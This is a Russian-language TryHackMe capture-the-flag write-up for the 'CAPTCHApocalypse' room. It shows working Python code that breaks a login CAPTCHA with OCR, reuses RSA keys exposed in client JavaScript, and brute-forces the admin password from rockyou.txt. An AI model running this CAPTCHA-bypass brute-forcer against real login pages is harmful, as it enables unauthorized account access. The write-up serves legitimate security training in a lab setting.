




# CAPTCHApocalypse — TryHackMe Writeup

## ⚠️ Дисклеймер

Это райтап создан исключительно в образовательных и исследовательских
целях — в рамках легального обучения информационной безопасности.

Разбираемая машина — retired-комната платформы TryHackMe, доступ к
прохождению и публикации райтапа по которой предоставлен самой платформой
в соответствии с её Acceptable Use Policy. Используемые инструменты,
техники и фрагменты кода предназначены только для работы в контролируемой
учебной среде (TryHackMe) и не предназначены для использования против
реальных систем, сервисов или приложений без явного письменного разрешения
их владельца.

Автор не поощряет и не несёт ответственности за несанкционированный доступ
к компьютерным системам, а также за любые действия третьих лиц,
совершённые с использованием информации из этого райтапа. Вся информация
предоставляется «как есть», исключительно в целях повышения осведомлённости
в области кибербезопасности.

Элементы интерфейса TryHackMe, показанные ниже, используются в учебных
целях (fair use), без претензии на авторство платформы.

## Вступление

Разраб закрыл сайт с использованием текстовой капчи? И теперь уверяет, что
перебор неликвиден?

Сегодня — машина из TryHackMe, на которой разберём это дело беспощадно и
грубо.

## О машине

Машина называется CAPTCHApocalypse. Она на Linux, веб-ориентированная. Из
условия задания — подсказка: использовать только первые 100 слов из
словаря `rockyou.txt` — значит, будем брутить.

## Разведка

Nmap в данном случае не нужен — цель и так понятна из условий задачи.

Если перейти по IP в браузере, то сразу наткнёмся на форму авторизации:
логин, пароль и капча. Вводим что-нибудь простое и проверяем результат.
ч


Ок. Смотрим, что происходит под капотом, через Burp Suite. При вводе
логина, пароля и капчи на сервер уходит один запрос на `server.php`, и тот
несёт зашифрованные данные: ключ-значение `data` и зашифрованный текст.



В исходниках страницы `index.php` через Ctrl+U находим, что капча на самом
деле запрашивается клиентом отдельным запросом уже после загрузки
страницы.

В Burp-е этот запрос был дефолтно отфильтрован — убираем фильтр, и вот
она, капча.

Открываем страничку напрямую и видим картинку с текстом. Обновляем
страницу несколько раз — и каждый раз прилетает новая картинка, с новым
текстом. Капча генерируется на лету. Её можно попробовать перехватить и
считать.

Ищем ещё что-то интересное. Запускаем GoBuster, захватываем в скоуп
расширения `php, txt, js`. Полагаем, что если нам нужен байпас капчи, то
дело в логике приложения.



GoBuster нашёл интересные директории и файл `script.js`. А кастомный
JS-файл в обычном вебе просто так не валяется.

Открываем `script.js` — и уязвимость найдена. Нам предоставлены:
публичный ключ сервера, приватный ключ клиента, функции шифрования и
дешифрования и функция `login` с полным списком параметров запроса —
CSRF-токен, `action`, `username`, `password`, `captcha_input`. Все
параметры переводятся в plaintext.



На этом фазу разведки можем заканчивать и начинаем процесс вооружения.

## Вооружение

Наша задача — забрутить приложение в обход капчи с использованием
найденной уязвимости. Для этого понадобится скрипт, который:

1. Отправит GET-запрос на `index.php`, получит куку.
2. Отправит GET-запрос на `captcha.php`, получит капчу и сохранит её в
   виде файла-картинки.
3. Обработает капчу и возвратит текст.
4. Соберёт параметры, необходимые для тела запроса.
5. Сформирует plaintext с параметрами и зашифрует его.
6. Отправит POST-запрос на `server.php` в рамках ранее созданной сессии.
7. Получит ответ и дешифрует его, чтобы мы могли проверить результат.

Шаги 1 и 2 — просто, разбирать не будем:

```python
def get_session_and_csrf():
    get_request = requests.get(f"{BASE_URL}/index.php?error=true")
    session_id = get_request.cookies.get("PHPSESSID")
    soup = BeautifulSoup(get_request.text, "html.parser")
    csrf_token = soup.find("input", {"id": "csrf_token"})["value"]
    return session_id, csrf_token


def get_captcha_image(session_id: str) -> None:
    headers = {
        "Accept": "image/avif,image/webp,image/png,*/*",
        "Referer": f"{BASE_URL}/index.php?error=true",
        "User-Agent": "Mozilla/5.0",
        "Cookie": f"PHPSESSID={session_id}",
    }
    captcha_request = requests.get(f"{BASE_URL}/captcha.php", headers=headers)
    if captcha_request.headers.get("Content-Type", "").startswith("image/"):
        with open("captcha.png", "wb") as f:
            f.write(captcha_request.content)
```

Шаг 3 — для распознавания капчи пробовал два варианта: EasyOCR и
PyTesseract. EasyOCR ошибался заметно чаще, PyTesseract показал себя куда
стабильнее — с ним реально можно было работать. Перед распознаванием
картинку ещё прогоняем через OpenCV — бинаризация убирает размытие. Но
распознавание всё равно не идеальное, поэтому весь процесс оборачиваем в
цикл: не прошла капча — запрашиваем новую и пробуем снова.

```python
def solve_captcha(image_path: str) -> str:
    # Бинаризация убирает размытие перед распознаванием
    img = cv2.imread(image_path, 0)
    _, binary_img = cv2.threshold(img, 180, 255, cv2.THRESH_BINARY)

    custom_config = (
        r"--oem 3 --psm 7 "
        r"-c tessedit_char_whitelist=0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ"
    )
    text = pytesseract.image_to_string(binary_img, lang="eng", config=custom_config)
    return text.strip().replace(" ", "")
```

Шаг 4. `action` — статичный `login`. `username` — `admin` из условия
задачи. `captcha_input` возьмём из ранее обработанного изображения.
`password` подберём с использованием словаря rockyou. CSRF-токен из HTML
достаём с использованием BeautifulSoup с указанием id в `index.php`.

Параметры собраны… теперь преобразуем в plaintext и шифруем. В
`index.php` видим метод `toString()`, который работает с этими
параметрами. Ищем аналог в python — метод `urlencode`.

```python
params = {
    "action": "login",
    "csrf_token": csrf_token,
    "username": username,
    "password": password,
    "captcha_input": captcha_input,
}
plain = urlencode(params)
```

Обрабатываем методом для преобразования в plaintext — и вуаля. Далее
шифрование и дешифрование. Воспользуемся силами божественного AI и
определим, что за алгоритм и как с ним работать.

Благодарим Claude за идентификацию алгоритма. Шифрование — RSA,
`PKCS1_v1_5`, на публичном ключе сервера. Добавляем 2 библиотеки:

```python
from Crypto.Cipher import PKCS1_v1_5
from Crypto.PublicKey import RSA
```

```python
public_key = RSA.import_key(public_key_pem)
encrypt_cipher = PKCS1_v1_5.new(public_key)

private_key = RSA.import_key(private_key_pem)
decrypt_cipher = PKCS1_v1_5.new(private_key)


def encrypt_data(plain_text: str) -> str:
    encrypted = encrypt_cipher.encrypt(plain_text.encode("utf-8"))
    return base64.b64encode(encrypted).decode()
```

И шифруем наш plaintext с указанием публичного ключа. Засовываем нашу
`data` в тело и формируем POST-запрос с необходимыми заголовками на
сервер. Получаем зашифрованную `data`.

```python
encrypted_params = encrypt_data(plain)

headers_post = {
    "Content-Type": "application/json",
    "Referer": f"{BASE_URL}/index.php?error=true",
    "User-Agent": "Mozilla/5.0",
    "Cookie": f"PHPSESSID={session_id}",
}
post_request = requests.post(
    f"{BASE_URL}/server.php",
    headers=headers_post,
    json={"data": encrypted_params},
)
```

Просим Claude написать функцию дешифрования с использованием приватного
ключа и текста… Результат… Отлично:

```python
def decrypt_data(encrypted_data: str) -> str:
    try:
        decrypted = decrypt_cipher.decrypt(base64.b64decode(encrypted_data), None)
        if decrypted is None:
            return "Decryption Failed"
        return decrypted.decode("utf-8")
    except Exception:
        return "Decryption Failed"
```

## Атака

Теперь оборачиваем весь код в цикл и обрабатываем ответы «Неверная капча»
и «неправильный логин». В ином случае — ответ.

```python
def main():
    for i, password in enumerate(data.split("\n")[:100], start=1):
        result = "CAPTCHA incorrect."

        # Повторяем, пока капча не распознана верно (сервер не ответит иначе)
        while result == "CAPTCHA incorrect.":
            session_id, csrf_token = get_session_and_csrf()
            get_captcha_image(session_id)
            captcha_input = solve_captcha("captcha.png")
            result = try_login(session_id, csrf_token, password, captcha_input)

        print(f"pass_count: {i} | username: {username} | password: {password!r} | status: {result}")

        if result != "Login failed!":
            # Ни "капча неверна", ни "неверный пароль" — считаем пароль найденным
            print(f"[+] Пароль найден: {password!r}")
            break


if __name__ == "__main__":
    main()
```

## Результат

Скрипт идёт по первым ста паролям из `rockyou.txt` для пользователя
`admin`, на каждой попытке проходит полный цикл (сессия → CSRF → капча →
распознавание → шифрование → запрос → дешифровка ответа) и печатает
прогресс. Как только ответ сервера не совпадает ни с «капча неверна», ни с
«неправильный логин» — пароль найден, цикл останавливается.

## Итог: цепочка атаки

1. **Разведка** — форма логина, перехват запроса на `server.php` через
   Burp, GoBuster находит `captcha.php` (скрытый за фильтром Burp) и
   `script.js`.
2. **Находка уязвимости** — `script.js` отдаёт клиенту RSA-ключи сервера
   и клиента прямо в коде, плюс полный список параметров запроса —
   логика авторизации воспроизводима на стороне атакующего.
3. **Вооружение** — свой скрипт: сессия + CSRF → капча (OpenCV +
   PyTesseract) → сборка и шифрование параметров (RSA/`PKCS1_v1_5`) →
   запрос на `server.php` → дешифровка ответа.
4. **Атака** — цикл перебора по первым 100 паролям `rockyou.txt` для
   `admin`, с перезапросом капчи на каждой неудачной попытке распознавания.
5. **Результат** — см. раздел выше.

## Полный скрипт

Весь код выше — рабочие фрагменты одного файла:
[`script.py`](script.py).
